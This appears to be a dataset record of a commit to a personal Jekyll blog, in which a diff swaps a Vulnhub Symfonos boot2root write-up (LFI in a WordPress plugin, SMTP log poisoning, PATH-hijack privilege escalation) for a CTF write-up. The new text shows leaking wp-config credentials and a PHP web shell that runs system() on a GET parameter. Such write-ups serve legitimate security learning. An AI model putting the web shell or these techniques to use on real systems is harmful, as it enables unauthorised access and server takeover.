

Before and after one commit to abhiabhi2306/abhiabhi2306.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page, without its empty margins (65-1128 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; part of the change alters nothing that is shown.

Commit message:
Update 2019-07-06-smfonos.md

````diff
--- a/_posts/2019-07-06-smfonos.md
+++ b/_posts/2019-07-06-smfonos.md
@@ -1,171 +1,37 @@
 ---
 layout:     post
-title:      "Vulnhub - Symfonos"
+title:      "Writeup - Capture South Africa"
 subtitle:   "Write-Up"
-date:       2019-07-06
-author:     "d4mianwayne"
+date:       2018-10-01
+author:     "Abhishek S"
 permalink: /:title/
-category: Vulnhub
+category: Boot2Root
 ---
 
-Today, we are going to pwn Symfonos from Vulnhub.
+This is a write-up for the WEB-APP Challenge [Capture South Africa] in Redteamvillage’s CTF event at Defcon TVM 0x02.
 
-### Machine Setup
+Special thanks to my awesome team members of defcon_speakers_0x02 (Sreeram KL & Vishnuprasad PG)
+http://l**p.v*******.xyz was a web application which was running wordpress instance, while doing basic enumeration, i noticed that the wordpress version used was the most latest one, and the first post was something fishy, the first post’s author name was ‘victimcorp’… i was checking for common vulnerablities that were present in wordpress, i checked for vulnerable plugins and stuff, but couldn’t find any and all were latest, i remember reading a POC in which wp-config file was downloadable, so i thought to try that, but i failed, then i tried adding a .bak (i.e: http://l**p.v*******.xyz/wp-config.php.bak) and there was a backup file, and it did download!
+Hurray!!!, I’ve checked it and it was the common config file with the configuration & credentials of the database, I’ve got the username and password from there, I checked for the open ports & instances with nmap, and it was pretty surprising that there was no instance related to DB running, I suddenly got an idea, i just went into /phpmyadmin/ and tried the db credentials! hurray! i logged into the phpmyadmin dashboard, i went to the corresponding database and went to the table wp-users, the password for admin there was encrypted, so i got an idea, instead of decrypting that, i just encrypted ‘test123’ into wordpress salted pass, and updated the pass of user ‘victimcorp’ with an sql DML command.
+now, i went to /wp-admin/ and logged into the admin account, we all thought that the flag would be inside the admin panel, but it was not there! where was it? suddenly i got an idea to shell the server, i went to themes, and added a .php file with the following code.
 
-Nothing much to setup in the machine, just import it to Virtualbox and choose the networking setting as per your ease, I chose the Bridge Networking as it's easy to setup.
-
-## Methodology
-
-* Nmap scan of the machine.
-* Checking the SMB server for files.
-* Checking Helios folder for important files.
-* Discovering the WordPress website in `/h3l105` route.
-* Scanning website for the vulnerabilities via wpscan.
-* Exloiting Mail Masta 1.0 Plugin for LFI(Local File Inclusion).
-* Enumerating SMTP server.
-* Using SMTP for getting a reverse shell thrrough `/var/mail/helios` as Helios on machine.
-* Gaining root peivileges by exploiting `/opt/statuscheck` binary.
+<?
+<HTML>
+<BODY>
+<FORM METHOD=”GET” NAME=”cmdform” ACTION=””>
+<INPUT TYPE=”text” NAME=”linux command”>
+<INPUT TYPE=”submit” VALUE=”command”>
+</FORM>
+<?
+if($_GET[‘cmd’]) {
+system($_GET[‘cmd’]);
+}
+?>
+</BODY></HTML>
 
 
-# Nmap
-
-Let's get started, using `nmap -sV -sC -A 192.168.43.12` reveals HTTP, SSH, SMTP, and SMB.
-
-![](/img/symfonos/symfonosnmap.png)
-
-# SMB service enumeration
-
-Honestly speaking, I've had some problems using `smbclient` so I usually take the help of inbulit File application connect to server feature.
-So moving to File, I connectedto the server and there were two folders, first **Anonymous** and second **Helios**, Helios folder was password protected and Anonymous was avilable to everyone so I checked **Anonymous** folder and there was a file named as `attention.txt`.
-
-![](/img/symfonos/symfonossmb.png)
-
-It has following information:-
-
-***
-
->Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'! Next person I find using one of these passwords will be fired!
-
--Zeus
-
-***
-
-So, using those password one by one for helios folder reveals folder's files with password `qwerty`.
-It has 2 files `research.txt` and `todo.txt`.
-
-***
-
-research.txt
-
->Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.
-
-***
-
-Not relevant.
-
-***
-
-todo.txt
-
-
->1. Binge watch Dexter
->2. Dance
->3. Work on /h3l105
-
-***
-
-There `/h3l105` is our focus.
-
-# WordPress Enumeration
-
-So, accesing to `http://192.168.43.12/h3l105` reveals a wordpress website with login, post, castegories and other link.
-
-***
-
-Note
-
->When you try to acces `/wp-login.php`, you'll recieve a error so to resolve that add machine IP Address to your `/etc/hosts` file as `symfonos.local`.
-
-***
-
-Well, it's wordpress so `wpscan` to rescuse.
-Using `wpscan --url http://symfonos.local/h3l105 --no-banner --no-update` reveals two CVEs, one is SQL Injection and other LFI vulnerability both in Mail Masta Plugin 1.0.
-
-![](/img/symfonos/symfonoswpscan.png)
-
-# Exploiting LFI Vulnerabilty
-[Here](https://www.exploit-db.com/exploits/40290), shows LFI PoC. So implementing the PoC on `http://symfonos.local/h3l105`,
-
-Visiting `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd` reveals the content of `/etc/passwd`.
-
-![](/img/symfonos/symfonosetc.png)
-
-We can also access `/wp-config.php`(this was not relevant) as well as some other files including `/var/mail/helios`.
-
-I was completely clueless so I asked [@DCAU7](https://twitter.com/DCAU7) for hint, he told me that I need to use SMTP to progress from here.
-
-# SMTP Enumeration and Reverse Shell via SMTP
-
-Using telnet we can connect to SMTP and we can send data to `/var/mail/helios` since it's accessible through LFI vulnerability.
-
->telnet symfonos.local 25
-
-Once connected we can use it to execute our php code by accessing to `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios`.
-
-![](/img/symfonos/symfonosvarmail.png)
-
-First let's send a email to helios with our reverse shell
-
-Using telnet we can connect to SMTP and from there we can send our reverse shell.
-
->telnet symfonos.local 25
-
-```
-
-MAIL FROM: Robin
-RCPT TO: helios
-DATA
-<PHP Reverse Shell>
-.
-quit
-
-```
-
-![](/img/symfonos/symfonossmtp.png)
-
-# Getting User and Root
-
-So, once email will be sent we can route to `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios` and that will execute our reverse shell.
-
-![](/img/symfonos/symfonosshell.png)
-
->find / -perm -u=s -type f 2>/dev/null
-
-![](/img/symfonos/symfonosfind.png)
-
-Reveals a interesting file `/opt/statuscheck`, so analyzing that binary reveals that it is scraping the document info of that website. Using
-`strings statuscheck` reveals that it's using curl i.e. `curl -I http://localhost.com` which basically gives the head information of a website. I tried to search for curl privilege escalation but sadly it wasn't useful.
-I was stuck at this but [@mzfr](https://twitter.com/0xmzfr) gave me a hint that it's something that we have done before.
-
-![](/img/symfonos/symfonosstrings.png)
-
-So, that helped me a lot. I chnaged directory to `/tmp` folder and ceated a binary named curl by using following commands:-
-
-```
-
-$ echo $"#!/bin/sh\n/bin/sh" > curl
-$ chmod 777 curl
-$ export PATH=:$(pwd)
-$ /opt/statuscheck
-
-```
-
-![](/img/symfonos/symfonosroot.png)
-
-
-That was it folks.
-
-# Note
-
-So, [@mzfr](https://twittwer.com/0xmzfr) gained that reverse shell in a different way than mine. So, there are two ways to gain reverse shell to the symfonos machine.
-Here's his [writeup](https://mzfr.github.io/symfonos).
+and used ls, and some basic commands, and the flag was inside the /www2/ directory in a file called flag.txt
+This was a webapp challenge in the redteamvillage’s ctf, and i loved pr3wning it! There were 6 challenges in total, and our team managed to solve 5 of them, and won the 2nd place :)
+Thanks for reading, I hope it was a good read!
+P.S: I’ve wanted to make a writeup for the other challenges too, but i don’t have much time with me in order to do that :(
+Bug Bounty Hunting
````
